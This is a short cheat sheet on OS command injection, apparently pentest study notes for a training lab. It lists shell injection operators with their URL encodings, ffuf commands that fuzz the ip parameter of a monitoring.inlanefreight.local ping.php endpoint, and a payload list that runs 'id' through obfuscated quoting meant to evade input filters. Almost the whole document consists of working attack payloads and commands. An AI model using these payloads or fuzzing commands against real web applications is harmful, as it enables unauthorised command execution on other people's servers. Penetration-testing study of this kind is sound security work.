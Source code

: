 Search for operations in the web app that would be using system commands to complete the task.

#### Injection methods
```shell
;     %3b
\n    %0a
&     %26
&&    %26%26 
|     %7c
||    %7c%7c
``    %60%60
$()   %24%28%29
```

```shell
ffuf -w ~/opt/wordlists/CMDi.txt -u http://monitoring.inlanefreight.local/ping.php -X POST -d 'ip=127.0.0.1FUZZ' 

ffuf -w ~/opt/wordlists/CMDi.txt -u 'http://monitoring.inlanefreight.local/ping.php?ip=127.0.0.1FUZZ' 
```
#### Payloads
```shell
; i"d" ; asd
& i"d" #
&& i"d"  
\n i"d" \n
\n i"d";
| i"d"
|| i"d"
`i"d"`
`/b"i"n/"i"d`
```